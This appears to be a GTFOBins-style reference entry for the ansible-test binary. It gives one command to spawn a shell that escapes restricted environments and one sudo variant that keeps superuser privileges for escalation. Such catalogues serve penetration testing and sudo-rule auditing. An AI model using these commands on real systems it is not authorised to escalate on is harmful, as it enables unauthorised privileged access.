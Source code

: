 # GTFOBin: ansible-test

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
ansible-test shell
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo ansible-test shell
```